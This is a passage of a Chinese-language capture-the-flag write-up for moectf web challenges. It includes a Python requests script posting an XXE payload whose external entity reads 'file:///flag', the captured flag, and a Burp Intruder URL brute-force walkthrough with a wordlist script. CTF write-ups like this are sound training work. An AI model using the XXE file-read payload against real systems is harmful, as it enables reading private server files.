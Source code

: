 ```python
    'Origin': 'null',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'cross-site',
    'Sec-Fetch-User': '?1',
}

data = '''-----------------------------15719226131077920622631907538
Content-Disposition: form-data; name="xml_content"
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a[
    <!ENTITY b SYSTEM "file:///flag" >
]>
<xml><name>&b;</name></xml>

-----------------------------15719226131077920622631907538--
'''

response = requests.post('xxx网址位置xxx', headers=headers, data=data)   #URL

print(response.text)
```

![](https://s2.loli.net/2024/03/07/RMuGlLpY38UoWNq.png)

**moectf{Which_one_You've_Chosen?0n8i1NDyjS2SD5yAUtpdBqqvH8vXFeSu}**

### 大海捞针

URL 爆破



![](https://s2.loli.net/2024/03/07/V62NBRZhjKSOnJv.png)

按照要求先进/?id=1 看看

![](https://s2.loli.net/2024/03/07/E4K6unDiTmJRfqY.png)

跟彼岸的 flag 一样属于源码泄露，只不过这次要爆破从 1-1000 的 URL，只有一个里面有 flag

**BP抓包后到Intruder加变量，再加一个1-1000的字典然后爆破即可**

![](https://s2.loli.net/2024/03/07/vMPq4ARL58ihUKG.png)

```python
desktop_path = "xxx"  # 替换为您的路径

with open(f"{desktop_path}/number_dictionary.txt", 'w') as file:
    for number in range(1, 1001):
        file.write(str(number) + '\n')
#数字字典脚本
```
